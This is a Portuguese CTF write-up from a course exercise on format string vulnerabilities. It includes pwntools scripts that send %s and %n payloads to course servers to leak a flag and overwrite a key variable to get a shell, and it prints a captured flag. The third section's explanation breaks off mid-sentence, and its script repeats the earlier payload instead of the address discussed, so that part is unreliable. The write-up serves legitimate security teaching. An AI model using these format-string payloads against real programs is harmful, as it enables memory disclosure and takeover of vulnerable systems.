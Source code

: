 # CTF Semana 7 - Format String

## Desafio 2 - Primeira Parte

Primeiramente, temos que utilizar o `checksec` para descobrir mais informação sobre o programa:

![image](Semana_7/images/checksec.png)

Como podemos ver, existe um **Stack Canary**, portanto não podemos fazer Buffer Overflow.<br>

Depois, utilizamos o `gdb` para descobrir o endereço da variável global `flag`:

![image](Semana_7/images/gdb.png)

Como podemos observar, o endereço da flag é `0x804c060`. Com este endereço, podemos utilizar um ataque de format string, pois há uma vulnerabilidade no `main.c`, onde são chamados **printf()** sem passar parâmetros de formato. Para fazer o ataque, alteramos o `exploit_example.py` para o seguinte:

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()
```

Devido ao que passamos dentro do **p.sendline()**, que é o endereço da **flag** (em little endian) e o `%s`, o que está naquele endereço será imprimido no terminal.<br>
Com isso, conseguimos obter a flag **flag{a77cc008c6b947169fca32cd56a4b47a}**.

## Desafio 2 - Segunda Parte

Analisando o `main.c`, conseguimos ver que, se o valor da variável global `key` for igual a **0xbeef**, então teremos acesso a uma shell, onde poderemos, de seguida, utilizar o comando `cat` para ler os valores do ficheiro `flag.txt`<br>

Primeiramente, tal como anteriormente, temos que utilizar o `gdb` para saber o endereço da variável `key`:

![image](/Semana_7/images/gdb2.png)

Sabemos, agora, que o endereço da variável `key` é **0x804b324**, portanto, utilizaremos, para escrever em cima desse endereço de memória, o `%n`, que escreve o número de bytes que percorreu no total. Como **0xbeef** em decimal é 48879, teremos que escrever 48879 bytes. Utilizaremos a notação `.Nx` utilizada nos labs. Como temos que escrever no início 4 bytes devido ao `x` e 4 bytes que são o endereço da `key`, então `N = 48879-4-4=48871`

```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"got:")
p.sendline(b"AAAA\x24\xb3\x04\x08.48871x%n")
p.interactive()
```

Com isto, conseguimos obter a flag:

![image](/Semana_7/images/flag2.png)


## Desafio 1 - Extra Dificuldade

Este exercício é semelhante à segunda parte do exercício anterior, no entanto, se utilizarmos o gdb obtemos o seguinte:

![image](/Semana_7/images/gdb3.png)

Como podemos ver, o endereço da `key` é **0x804b320**.<br>
Isto é ligeiramente problemático, pois para escrever nesse endereço fariamos o seguinte:

```py
p.sendline(b"AAAA\x20\xb3\x04\x08.48871x%n")
```

No entanto, o `\x20` é o valor hexadecimal para o espaço, e o **p.sendline()** acaba quando recebe um espaço, portanto temos que ....


```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4008)

p.recvuntil(b"got:")
p.sendline(b"AAAA\x24\xb3\x04\x08.48871x%n")
p.interactive()
```

